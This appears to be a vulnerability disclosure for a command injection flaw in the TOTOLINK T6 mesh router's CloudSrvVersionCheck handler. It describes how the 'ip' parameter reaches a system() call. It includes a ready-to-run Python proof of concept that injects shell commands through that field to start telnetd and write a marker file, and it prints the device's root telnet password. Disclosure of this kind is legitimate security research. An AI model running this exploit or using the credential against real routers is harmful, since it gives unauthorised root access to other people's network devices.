



# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the topicurl `CloudSrvVersionCheck`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

Here is the code that handle request to topicurl `CloudSrvVersionCheck`. If `type` is 1, the `ip` parameter is passed to funcion `safe_cs_pub` as the first param



Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing



In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`



# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"CloudSrvVersionCheck",
        "type":"1",
        "ip":";%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    print("[+] Try telnet %s with root/KL@UHeZ0. Also check '/tmp/hacked'" % target_ip)
    execute_command(target_ip, "telnetd; echo Pwned by Elvis > /tmp/hacked")
```

[Video](https://www.youtube.com/watch?v=MMIggqnj28E)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.